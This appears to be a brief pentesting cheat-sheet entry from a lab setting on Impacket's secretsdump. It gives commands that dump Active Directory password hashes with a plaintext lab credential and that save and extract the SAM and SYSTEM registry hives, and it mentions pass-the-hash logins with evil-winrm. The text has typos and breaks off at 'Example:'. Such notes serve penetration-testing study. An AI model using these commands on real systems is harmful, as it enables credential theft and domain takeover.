

secretsdump
Secretsdump
Dumping all password hashes associated by an account
We can use another tool within Impacket called "secretsdump.py". This will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer. Exploiting this, we will effectively have full control over the AD Domain.
impacket-secretsdump -just-dc backup:backup2517860@10.10.11.113

Now, we can use Pass the Hash attack with evil-winrm to use the hash to login as administrator.
Dumping all passsword hashes from SAM.hive and SYSTEM.hive files
Get the SAM and SYSTEM hive files using following.
Command Prompt
C:\> reg save hklm\system C:\Users\THMBackup\system.hive
The operation completed successfully.
C:\> reg save hklm\sam C:\Users\THMBackup\sam.hive
The operation completed successfully.
Transfer to our local machine using any means. The run the following command to get the hashes.
Impacket-ecretsdump.py -sam sam.hive -system system.hive LOCAL
Example:
